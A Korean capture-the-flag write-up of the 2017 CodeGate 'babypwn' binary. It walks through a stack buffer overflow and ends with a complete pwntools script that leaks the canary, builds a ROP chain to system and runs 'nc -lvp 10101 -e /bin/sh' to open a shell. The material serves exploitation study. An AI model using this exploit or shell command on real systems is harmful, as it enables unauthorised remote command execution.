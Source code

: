 ```yaml
---
layout: post
title: "2017 CodeGate babypwn Write up"
excerpt: "Canary&ROP를 공부하기 적합한 문제"
date: 2020-08-17
categories: [system, ctf]
comments: true
---
```


이번에는 보호기법 중 StackCanary를 우회하여 32bit rop를 하는 문제를 풀어보았다. 

<h3> 0x0. Binary
</h3>

| canary  | fortify  | nx      | pie      | relro   |
| ------- | -------- | ------- | -------- | ------- |
| enabled | disabled | enabled | disabled | partial |



<h3>0x1. main
</h3>
코드의 메인을 확인해보면 그냥 소켓통신을 위한 코드인 것 같다.

```c
unsigned int __cdecl main(int a1, char **a2)
{
  socklen_t addr_len; // [esp+20h] [ebp-30h]
  int optval; // [esp+24h] [ebp-2Ch]
  int v5; // [esp+28h] [ebp-28h]
  struct sockaddr addr; // [esp+2Ch] [ebp-24h]
  struct sockaddr v7; // [esp+3Ch] [ebp-14h]
  unsigned int v8; // [esp+4Ch] [ebp-4h]

  v8 = __readgsdword(0x14u);
  if ( a1 == 2 )
    v5 = atoi(a2[1]);
  else
    v5 = 8181;
  dword_804B1BC = socket(2, 1, 0);
  if ( dword_804B1BC == -1 )
  {
    perror("[!] socket Error!");
    exit(1);
  }
  addr.sa_family = 2;
  *(_WORD *)addr.sa_data = htons(v5);
  *(_DWORD *)&addr.sa_data[2] = 0;
  bzero(&addr.sa_data[6], 8u);
  optval = 1;
  setsockopt(dword_804B1BC, 1, 2, &optval, 4u);
  if ( bind(dword_804B1BC, &addr, 0x10u) == -1 )
  {
    perror("[!] bind Error!");
    exit(1);
  }
  if ( listen(dword_804B1BC, 1024) == -1 )
  {
    perror("[!] listen Error!");
    exit(1);
  }
  while ( 1 )
  {
    while ( 1 )
    {
      addr_len = 16;
      fd = accept(dword_804B1BC, &v7, &addr_len);
      if ( fd != -1 )
        break;
      perror("[!] accept Error!");
    }
    if ( !fork() )
      break;
    close(fd);
    while ( waitpid(-1, 0, 1) > 0 )
      ;
  }
  sub_8048B87();
  close(dword_804B1BC);
  close(fd);
  return __readgsdword(0x14u) ^ v8;
}
```

코드를 확인해보면 특별한 값이 없으면 8181포트를 연결한다. 그럼 이제 sub_8048B87등의 기타 함수를 보자.

사실상 메인으로 보여지는 sub_

```c
unsigned int sub_8048A71()
{
  int v1; // [esp+1Ch] [ebp-3Ch]
  char v2; // [esp+24h] [ebp-34h]
  unsigned int v3; // [esp+4Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  memset(&v2, 0, 0x28u);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        sub_80488B1("\n===============================\n");
        sub_80488B1("1. Echo\n");
        sub_80488B1("2. Reverse Echo\n");
        sub_80488B1("3. Exit\n");
        sub_80488B1("===============================\n");
        v1 = sub_804895A();
        if ( v1 != 1 )
          break;
        sub_80488B1("Input Your Message : ");
        sub_8048907(&v2, 100);
        sub_80488B1(&v2);
      }
      if ( v1 != 2 )
        break;
      sub_80488B1("Input Your Message : ");
      sub_8048907(&v2, 100);
      sub_80489C8(&v2);
      sub_80488B1(&v2);
    }
    if ( v1 == 3 )
      break;
    sub_80488B1("\n[!] Wrong Input\n");
  }
  return __readgsdword(0x14u) ^ v3;
}
```

를 보면 변수의 메모리는 40인데 입력값을 100을 받는걸 볼 수 있고, 여기서 Bof 취약점이 발생한다.



<h3>0x2 Exploit Vector</h3>

이제는 어떻게 공격을 해보면 좋을지 생각해보자.  일단 Bof를 이용해야 하는데 NX bit가 있으므로 ROP를 이용할거다. 그리고 canary가 있으니 canary leak을 해야한다.

우선 canary값을 leak하는 코드이다 . 40바이트만 찍으면 나와야 하는데 41바이트를 해야 출력되는걸 봐서는 canary의 첫 바이트는 0x00임을 알 수 있다. 

```python
from pwn import *

p = remote('localhost',8181)
e = ELF("./babypwn")

ppppr = 0x08048eec
recv_plt = e.plt['recv']
system_plt = e.plt['system']

cmd = 'nc -lvp 10101 -e /bin/sh'

#stack canary leak
p.sendlineafter('> ','1')
p.sendafter(': ','A'*41)
leak = p.recv(1024)[41:44]
canary = u32('\x00' +leak)
print "[+] Stack Canary Leak :" +hex(canary)


p.close()

p = remote('localhost',8181)

p.sendlineafter('> ','1')

#ROP
pay = 'A'*40
pay +=  p32(canary)
pay += 'A'*12

pay += p32(recv_plt)
pay += p32(ppppr)
pay += p32(4)
pay += p32(e.bss())
pay += p32(len(cmd)+1)
pay += p32(0)

pay += p32(system_plt)
pay += 'A'*4
pay += p32(e.bss())

p.sendlineafter(': ', pay)
p.sendlineafter('> ','3')

sleep(1)

p.sendline(cmd)
```



이 문제는 리버스 커넥션을 이용하여 해결하였다. 거진 두달만에 ctf문제를 풀어보는 것 같은데, 많이 분발해야겠다. 

아직도 카나리를 릭하는걸 잘 못하겠다. + 리버스 커넥션 개념도 이번에 처음 이용해보았는데 좀 더 알고 써야겠다.
